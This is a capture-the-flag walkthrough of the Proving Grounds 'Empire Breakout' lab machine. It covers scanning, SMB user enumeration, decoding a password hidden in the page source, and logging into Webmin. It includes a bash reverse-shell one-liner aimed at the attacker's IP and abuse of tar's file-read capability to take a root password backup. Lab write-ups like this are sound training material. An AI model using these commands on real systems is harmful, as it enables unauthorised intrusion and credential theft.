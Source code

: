 ```yaml
---
layout: default
title: Empire Breakout
parent: Proving Grounds Play
nav_order: 12
---
```


# Scanning

---

```bash

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/empire-breakout]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.226.238
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 22:04 EST
Nmap scan report for 192.168.226.238
Host is up (0.062s latency).
Not shown: 65527 closed tcp ports (reset), 3 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-server-header: MiniServ/1.981
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
|_http-server-header: MiniServ/1.830

Host script results:
| smb2-time:
|   date: 2023-11-07T03:05:40
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: 17s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.04 seconds

```

# Enumeration

---

## 445 | SMB

Enumerate the SMB service with _Enum4linux_ and discover a local user _cyber_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/empire-breakout]
└─$ enum4linux -U 192.168.226.238
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Nov  7 21:48:
19 2023

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cyber (Local User)

```

## 80 | HTTP

Running Apache.
Gobuster scan doesn't return anything useful.
Checking the source code we find some text at the bottom of the page:

```bash
!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.


-->
```

Use dcode.fr to analyze the text and it determines it is encoded with the Brainfuck cipher.

![decode1](../../../assets/images/ctfs/proving_grounds/empire-breakout/decode1.png)

Decoding we get a string that looks like a possible password:

![decode2](../../../assets/images/ctfs/proving_grounds/empire-breakout/decode2.png)

Discovered password: .2uqPEfj3D<P'a-3
{: .warn }

## 20000 | HTTP

We are able to authenticate with the _cyber_ user discovered with SMB enumeration and the password decoded from the Apache web page
source code.

![logon](../../../assets/images/ctfs/proving_grounds/empire-breakout/logon.png)

# Exploitation

## Reverse Shell from Webmin Web Terminal

Once authenticated to the Webmin Miniserv running on port 20000 we find a terminal icon in the Usermin admin panel.

![terminal](../../../assets/images/ctfs/proving_grounds/empire-breakout/terminal.png)

We enter the following bash one-liner in the terminal and get a reverse shell on our netcat listener.

```bash
bash -i >& /dev/tcp/192.168.45.217/80 0>&1
```

![bash](../../../assets/images/ctfs/proving_grounds/empire-breakout/bash.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/empire-breakout]
└─$ netcat -nlvp 80
listening on [any] 80 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.226.238] 51512
bash: cannot set terminal process group (6028): Inappropriate ioctl for device
bash: no job control in this shell
cyber@breakout:~$ id
id
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
cyber@breakout:~$

```

---

# Post-Exploitation

---

## Check for Extended Capabilities

```bash
cyber@breakout:~$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep

```

_Tar_ has cap_dac_read_search capabilities.
This extended capability allows us to read access to anything.
This could be used to read restricted files such as /etc/shadow in order to display password hashes.

When running _linpeas_ we see there is a _/var/backups/.old_pass.bak_ that we can try to read with the _Tar_ binary.

![backup](../../../assets/images/ctfs/proving_grounds/empire-breakout/backup.png)

```bash
cyber@breakout:~$ ./tar -cvf old_pass /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
/var/backups/.old_pass.bak
cyber@breakout:~$ ./tar -xvf old_pass
var/backups/.old_pass.bak
cyber@breakout:~$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```

Root password discovered: Ts&4&YurgtRX(=~h
{: .warn }
